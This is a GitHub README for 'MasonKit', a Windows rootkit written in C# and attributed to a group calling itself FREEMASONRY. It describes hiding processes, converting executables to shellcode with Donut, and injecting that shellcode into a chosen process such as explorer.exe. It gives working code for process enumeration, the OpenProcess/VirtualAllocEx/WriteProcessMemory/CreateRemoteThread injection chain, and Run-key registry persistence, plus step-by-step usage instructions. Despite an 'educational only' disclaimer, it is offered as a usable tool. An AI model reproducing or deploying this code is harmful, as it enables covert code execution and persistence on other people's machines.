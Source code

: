 # MasonKit - Rootkit Project
<p align="center">
  <img src="https://i.ibb.co/LzP0f7G3/image.png" alt="App" />
</p>
## Overview
MasonKit is a **Rootkit** project developed by **ABOLHB** from the **FREEMASONRY** group. The primary purpose of this tool is to **hide a program from the process list** and **inject it into any system file** of your choice. This project is intended for **educational purposes only**, and the creator and contributors are **not responsible** for any misuse or illegal activities performed using this tool.

---

## Disclaimer
This project is shared for **educational and research purposes only**. The creator, contributors, and the FREEMASONRY group are **not responsible** for any illegal or unethical use of this tool. Use it at your own risk, and ensure you have proper authorization before using it in any environment.

---

## Features
1. **Process Hiding**: The Rootkit hides the target process from the system's process list.
2. **Shellcode Injection**: Injects custom shellcode into a specified system process.
3. **Persistence**: Optionally adds the Rootkit to the system's startup registry.
4. **Customizable**: Allows users to specify the target process and shellcode file.

---

## Code Explanation

### 1. **Main Components**
The project is built using **C#** and utilizes the **Windows API** for low-level system operations. Below is a detailed breakdown of the code:

---

### 2. **MasonForm Class**
This is the main form class for the application. It handles user interactions and initiates the Rootkit functionality.

#### Key Methods:
- **`Form1_Load`**: Initializes the form and sets default values for UI elements.
- **`guna2Button1_Click`**: Handles the injection process. It reads the shellcode from a `.bin` file, compiles it into a new executable, and injects it into the target process.
- **`guna2Button2_Click`**: Allows the user to select an executable file, converts it into shellcode using **Donut**, and saves it as `shellcode.bin`.

---

### 3. **Rootkit Functionality**
The Rootkit is implemented in the dynamically generated C# code. Below is a breakdown of its key components:

#### **Constants and Imports**
```csharp
const int PROCESS_ALL_ACCESS = 0x1F0FFF;
const uint MEM_COMMIT = 0x1000;
const uint MEM_RESERVE = 0x2000;
const uint PAGE_EXECUTE_READWRITE = 0x40;
const uint MEM_RELEASE = 0x8000;
```
These constants define memory allocation and process access permissions.

#### **Windows API Functions**
- **`CreateToolhelp32Snapshot`**: Takes a snapshot of the system's processes.
- **`Process32First`** and **`Process32Next`**: Enumerate processes in the snapshot.
- **`OpenProcess`**: Opens a handle to the target process.
- **`VirtualAllocEx`**: Allocates memory in the target process.
- **`WriteProcessMemory`**: Writes shellcode into the allocated memory.
- **`CreateRemoteThread`**: Executes the shellcode in the target process.

#### **Process Enumeration**
```csharp
static uint GetProcessIdByName(string processName)
{
    uint processId = 0;
    IntPtr snapshot = CreateToolhelp32Snapshot(0x2, 0);
    PROCESSENTRY32 processEntry = new PROCESSENTRY32 { dwSize = (uint)Marshal.SizeOf(typeof(PROCESSENTRY32)) };
    if (Process32First(snapshot, ref processEntry))
    {
        do
        {
            if (processName == processEntry.szExeFile)
            {
                processId = processEntry.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, ref processEntry));
    }
    CloseHandle(snapshot);
    return processId;
}
```
This function retrieves the process ID of the target process by name.

#### **Shellcode Injection**
```csharp
IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
IntPtr pRemoteMemory = VirtualAllocEx(hProcess, IntPtr.Zero, shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, pRemoteMemory, shellcode, shellcode.Length, out int bytesWritten);
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, pRemoteMemory, IntPtr.Zero, 0, IntPtr.Zero);
```
This code injects the shellcode into the target process and executes it.

#### **Persistence**
```csharp
static void AddToStartup()
{
    string appPath = System.Reflection.Assembly.GetExecutingAssembly().Location;
    using (RegistryKey key = Registry.CurrentUser.OpenSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run", true))
    {
        if (key != null)
        {
            key.SetValue("MyApplication", appPath);
        }
    }
}
```
This method adds the Rootkit to the system's startup registry for persistence.

---

### 4. **Donut Integration**
The project uses **Donut** to convert executable files into shellcode. The shellcode is then injected into the target process.

---

## Usage
1. **Select Target Process**: Enter the name of the target process (e.g., `explorer.exe`).
2. **Load Shellcode**: Use the `Load Shellcode` button to convert an executable into shellcode.
3. **Inject**: Click the `Inject` button to inject the shellcode into the target process.
4. **Persistence**: Enable the `Add to Startup` checkbox to ensure the Rootkit runs on system startup.

---

## Ethical Considerations
- **Authorization**: Always ensure you have proper authorization before using this tool.
- **Legal Compliance**: Misuse of this tool may violate local and international laws.
- **Educational Use**: This project is intended for educational purposes only.

---

## Credits
- **ABOLHB**: Creator of MasonKit.
- **FREEMASONRY Group**: The group behind the project.

---

## Links
- [GitHub Repository](https://github.com/MasonGroup)
- [Discord Server](https://discord.gg/dvXH85CfpN)
- [Instagram](https://www.instagram.com/g7m9)

